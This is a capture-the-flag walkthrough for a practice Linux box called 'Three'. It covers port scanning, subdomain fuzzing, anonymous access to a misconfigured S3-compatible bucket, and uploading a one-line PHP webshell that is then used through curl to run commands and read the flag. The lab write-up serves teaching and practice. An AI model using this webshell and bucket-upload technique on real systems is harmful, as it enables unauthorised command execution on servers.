



# 🥉 Three
<div class="machine-properties">
  <span class="prop-badge linux">Linux</span> <span class="prop-badge very-easy">Very Easy</span> <span class="prop-badge skills">Gobuster</span> <span class="prop-badge skills">ffuf</span> <span class="prop-badge skills">AWS S3</span> <span class="prop-badge skills">PHP Webshell</span>
</div>


Three is a **Very Easy** Linux box that demonstrates how subdomain fuzzing reveals a misconfigured S3-compatible storage endpoint. The S3 bucket — used as the website's backend — allows anonymous listing and file upload. Uploading a PHP webshell to the bucket gives command execution on the web server, as the bucket serves as the site's web root.

---

## Recon

A full port scan reveals *2* open ports:

```
$ nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.129.227.248

PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 63
80/tcp open  http    syn-ack ttl 63
```

A service scan identifies *service/version*:

```
$ nmap -sCV -p22,80 10.129.227.248

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 17:8b:d4:25:45:2a:20:b8:79:f8:e2:58:d7:8e:79:f4 (RSA)
|   256 e6:0f:1a:f6:32:8a:40:ef:2d:a7:3b:22:d1:c7:14:fa (ECDSA)
|_  256 2d:e1:87:41:75:f3:91:54:41:16:b7:2b:80:c6:8f:05 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: The Toppers
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

**Key findings:**
- **HTTP (80)** — Apache 2.4.29 serving "The Toppers" website. No unusual headers or versions — the attack surface here will be content discovery, not known CVEs.
- **SSH (22)** — OpenSSH 7.6p1 is available but no credentials yet. This will be the post-exploitation target if we can get a user's password or SSH key.

---

## Foothold

### Step 1 — Web Enumeration & Virtual Host Discovery

The website at `http://10.129.227.248` is a static business page for "The Toppers" — a contact form, some images, nothing interactive.



Gobuster finds only `index.php` and an `images/` directory:

```
$ gobuster dir -u http://10.129.227.248 -w /usr/share/seclists/Discovery/Web-Content/DirBuster-2007_directory-list-2.3-small.txt -x php,html -t 50

images               (Status: 301) [Size: 317] [--> http://10.129.227.248/images/]
index.php            (Status: 200) [Size: 11952]
```



No hidden admin panels or login forms. The contact form submits to itself — no separate backend endpoint. Time to check for virtual host routing.

Add the domain to `/etc/hosts`:

```
$ echo "10.129.227.248 thetoppers.htb" | sudo tee -a /etc/hosts
```

The site loads identically — but now we can fuzz for subdomains with virtual host routing:

```
$ gobuster vhost -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt -u http://thetoppers.htb --append-domain -t 50

s3.thetoppers.htb Status: 404 [Size: 21]
```

The **`s3`** subdomain stands out — S3 is Amazon's storage service. A 404 with a small body (21 bytes) suggests a real service, not a catch-all. Add it to `/etc/hosts`:

```
$ echo "10.129.227.248 s3.thetoppers.htb" | sudo tee -a /etc/hosts
```

> 💡 Gobuster's `vhost` mode works like ffuf — it sends requests with different `Host` headers. The `--append-domain` flag automatically appends `.thetoppers.htb` to each wordlist entry. A 404 with a distinct response size (21 bytes vs. the main site's 11,952) is a strong signal of a separate virtual host.

Visiting `http://s3.thetoppers.htb` returns an XML response referencing S3:



The XML structure confirms this is an **S3-compatible storage endpoint**. It's not real AWS — it's a self-hosted service emulating the S3 API.

### Step 2 — S3 Bucket Enumeration & Webshell Upload

The AWS CLI can interact with any S3-compatible endpoint using the `--endpoint` flag. Configure fake credentials — this endpoint doesn't validate them:

```
$ aws configure

AWS Access Key ID [None]: temp
AWS Secret Access Key [None]: temp
Default region name [None]: temp
Default output format [None]: temp
```

List all buckets:

```
$ aws --endpoint=http://s3.thetoppers.htb s3 ls
2026-06-07 11:57:24 thetoppers.htb
```

One bucket exists — `thetoppers.htb`. List its contents:

```
$ aws --endpoint=http://s3.thetoppers.htb s3 ls s3://thetoppers.htb
                           PRE images/
2026-06-07 11:57:24          0 .htaccess
2026-06-07 11:57:24      11952 index.php
```

The bucket contains the website's source code — `index.php` (11,952 bytes, matching the Gobuster response) and an `images/` folder. **This bucket is the backend storage for the main website.** Anything we upload here becomes accessible at `http://thetoppers.htb/<filename>`.

Create a minimal PHP webshell and upload it:

```
$ echo '<?php system($_GET["cmd"]); ?>' > file.php

$ aws --endpoint=http://s3.thetoppers.htb s3 cp file.php s3://thetoppers.htb
upload: ./file.php to s3://thetoppers.htb/file.php
```

Verify the upload:

```
$ aws --endpoint=http://s3.thetoppers.htb s3 ls s3://thetoppers.htb
                           PRE images/
2026-06-07 11:57:24          0 .htaccess
2026-06-07 15:24:17         31 file.php
2026-06-07 11:57:24      11952 index.php
```

> 💡 **Why this works:** The S3 bucket is the web root for the main site. The endpoint allows anonymous write access — no authentication, no signed URLs. Any file uploaded via `aws s3 cp` becomes immediately accessible at `http://thetoppers.htb/<filename>`. PHP files execute because Apache serves them from the same directory.

### Step 3 — Command Execution & Flag Capture

The webshell is live. Test with `whoami`:

```
$ curl 'http://thetoppers.htb/file.php?cmd=whoami'
www-data
```

Enumerate the filesystem:

```
$ curl 'http://thetoppers.htb/file.php?cmd=pwd'
/var/www/html

$ curl 'http://thetoppers.htb/file.php?cmd=ls%20..'
flag.txt
html
```

The flag is one directory above the web root — read it directly:

```
$ curl 'http://thetoppers.htb/file.php?cmd=cat%20../flag.txt'
a980d99281a28d638ac68b9bf9453c2b
```

No privilege escalation needed — the flag is readable by `www-data` and sits right outside the web root.

---

## Key Takeaways

- **Virtual host discovery is essential** — the main site revealed nothing. Gobuster `dir` found only `index.php`. Gobuster `vhost` found `s3.thetoppers.htb`, which unlocked the entire box. When a web server returns a static or empty page, always test virtual host routing.
- **`s3` subdomain = immediate S3 CLI interaction** — the `s3` prefix is a dead giveaway of S3-compatible storage. Don't just browse it — configure the AWS CLI and start enumerating buckets. Fake credentials work on misconfigured endpoints.
- **S3 bucket as web root = instant RCE via file upload** — if the bucket serves as the website's backend storage (same files visible on both), any file you upload is executable. A one-line PHP webshell is all you need.
- **Check `../` before escalating** — the flag was one directory up from the web root, readable by `www-data`. Always check the immediate parent directory before building reverse shells or privilege escalation chains.
- **Gobuster vhost vs. ffuf** — Gobuster found `s3.thetoppers.htb` with `--append-domain` and its built-in response size filtering. ffuf with `-ac` (auto-calibrate) is an equally valid alternative and often faster for larger wordlists.

## 🔗 Related

- [[💣 Gobuster]] — Directory & virtual host brute-forcing
- [[🎯 ffuf]] — Subdomain fuzzing with auto-calibrate filtering
- [[☁️ AWS S3]] — S3 bucket enumeration & exploitation
- [[🐚 PHP Webshell]] — Webshell creation & command execution
- [[🧨 Preignition]] — Another Gobuster-based foothold
- [[🐊 Crocodile]] — Gobuster dir busting leading to admin panel
